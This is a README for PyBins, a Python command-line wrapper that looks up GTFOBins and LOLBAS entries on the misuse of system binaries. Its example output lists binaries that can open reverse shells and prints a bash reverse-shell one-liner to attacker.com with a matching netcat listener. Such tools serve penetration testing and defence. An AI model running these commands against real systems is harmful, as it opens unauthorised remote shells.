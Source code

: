 # PyBins

PyBins is a command line utily that wraps the content of [GTFOBins](https://gtfobins.github.io/) and [LOLBAS](https://lolbas-project.github.io/)

## Instalation:
`
pip install pybins
`
## Usage:

```
usage: pybins [-h] [-p PLATFORM] [-b BINARY] [-f FUNCTION]

PyBins Cmd Line wraper for GTFOBin and LOLBas

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Select the platform to lookup, Win/Windows or
                        Lin/Linux, case insensitive
  -b BINARY, --binary BINARY
                        The binary to lookup
  -f FUNCTION, --function FUNCTION
                        The function to lookup
```

## Examples

### List platform available binaries and functions/categories:

* `pybins -p win`
* `pybins -p windows`
* `pybins -p lin`
* `pybins -p linux`

### List all linux binaries with reverse-shell function:

* `pybins -p lin -f reverse-shell`
* `pybins -p linux -f reverse-shell`

#### Output

```
The Function reverse-shell has the following binaries:

nc           perl     ksh    rview               cpan     node          telnet        irb
python       gdb      pip    bash                view     openssl       gimp          rvim
socat        vim      php    jrunscript          jjs      ruby          vimdiff       easy_install
```

### List all functions of the Linus binary bash

* `pybins -p lin -b bash`
* `pybins -p linux -b bash`

#### Output

```
The binary bash has the following categories:

shell    reverse-shell      file-upload     file-download      file-write     file-read    library-load
suid     sudo
```

### List all the commands for the binary bash and function reverse-shell on linux

* `pybins -p lin -b bash -f reverse-shell`
* `pybins -p linux -b bash -f reverse-shell`

#### Output

```
Description:  Run `nc -l -p 12345` on the attacker box to receive the shell.
Command:      export RHOST=attacker.com
              export RPORT=12345
              bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
